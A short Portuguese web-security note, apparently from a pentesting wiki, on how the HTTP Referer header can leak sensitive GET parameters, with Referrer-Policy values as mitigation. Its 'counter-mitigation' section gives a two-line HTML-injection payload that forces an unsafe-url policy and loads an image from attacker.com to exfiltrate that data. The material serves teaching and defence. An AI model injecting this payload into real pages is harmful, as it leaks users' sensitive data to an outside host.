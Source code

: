 # HTTP Interessante

## Headers Referrer e sua política

Referrer é um tipo de header usado pelos navegadores para indicar a ultima página visitada.

### Informação sensível vazada
Se em algum ponto dentro de uma página web estiver alocado alguma informação sensível nos parametros de uma requisição GET, caso esta página contenha links para fontes externas ou que seja possível um invasor fazer ou sugerir \(engenharia social\) um usuário acessar uma URL controlada pelo mesmo. Se torna possível a extração de informação sensível que está na requisição GET.

### Mitigação
Você pode fazer que o navegador siga uma **Referrer-policy** (política para o header) que pode **evitar** que informações sensíveis sejam repassadas para outras aplicações web.

```text
Referrer-Policy: no-referrer
Referrer-Policy: no-referrer-when-downgrade
Referrer-Policy: origin
Referrer-Policy: origin-when-cross-origin
Referrer-Policy: same-origin
Referrer-Policy: strict-origin
Referrer-Policy: strict-origin-when-cross-origin
Referrer-Policy: unsafe-url
```

### Contra-Mitigação
Você pode reescrever essa regra do header através de uma meta tag no HTML \(o atacante precisa explorar uma vulnerabilidade de HTML Injection):


```markup
<meta name="referrer" content="unsafe-url">
<img src="https://attacker.com">
```

### Defesa
Nunca coloque quaisquer informações sensíveis dentro de parâmetros ou caminhos na URL de uma requisição GET 
